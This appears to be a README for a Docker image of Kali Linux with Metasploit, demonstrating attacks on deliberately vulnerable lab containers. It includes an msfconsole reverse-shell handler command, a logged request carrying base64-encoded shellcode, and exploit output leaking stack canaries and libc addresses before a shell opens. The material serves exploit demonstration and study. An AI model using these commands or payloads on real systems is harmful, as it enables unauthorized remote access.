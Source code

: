 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
bash build.sh
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `pv build -r polyverse docker`. This will create the Docker container image `polyverse/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `pv build docker` to create a new version of `polyverse/c-exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
6. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.

### tcp_echo_server.sh
Similar to c-exploit above, running "tcp_echo_server.sh" will result in output something like this:
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] 172.16.1.31:8080 - Start...
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - VULN STACK FRAME...
[*] 172.16.1.31:8080 - vuln_padding:     ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - vuln_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - vuln_saved_bp:    ["d0f280fbfd7f0000"] (0x7ffdfb80f2d0)
[*] 172.16.1.31:8080 - vuln_ret_addr:    ["8a0a400000000000"] (0x400a8a)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - MAIN STACK FRAME...
[*] 172.16.1.31:8080 - main_argv_save:   ["b8f380fbfd7f0000"] (0x7ffdfb80f3b8)
[*] 172.16.1.31:8080 - main_padding:     ["00000000"]
[*] 172.16.1.31:8080 - main_argc_save:   ["01000000"] (0x1)
[*] 172.16.1.31:8080 - main_cli_len:     ["10000000"] (0x10)
[*] 172.16.1.31:8080 - main_server_port: ["34120000"] (0x1234)
[*] 172.16.1.31:8080 - main_server_fd:   ["03000000"] (0x3)
[*] 172.16.1.31:8080 - main_client_fd:   ["04000000"] (0x4)
[*] 172.16.1.31:8080 - main_server_addr: ["02001f90000000000000000000000000"]
[*] 172.16.1.31:8080 - main_client_addr: ["02009322ac1100010000000000000000"]
[*] 172.16.1.31:8080 - main_unknown:     ["b0f380fbfd7f0000"] (0x7ffdfb80f3b0)
[*] 172.16.1.31:8080 - main_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - main_saved_bp:    ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - main_ret_addr:    ["454ff962647f0000"] (0x7f6462f94f45)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - COMPUTED ADDRESSES...
[*] 172.16.1.31:8080 - a_libc_base:      0x7f6462f73000
[*] 172.16.1.31:8080 - a_stack_free:     0x7ffdfb7ff000
[*] 172.16.1.31:8080 - a_libc_mprotect:  0x7f646306b550
[*] 172.16.1.31:8080 - a_libc_read:      0x7f6463062320
[*] 172.16.1.31:8080 - a_libc_poprdi:    0x7f6463063800
[*] 172.16.1.31:8080 - a_libc_poprsi:    0x7f646305a80b
[*] 172.16.1.31:8080 - a_libc_poprdx:    0x7f6463033d40
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - Done. (If successful, you should get a promptless shell.)
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:53730) at 2017-09-15 20:38:14 +0000


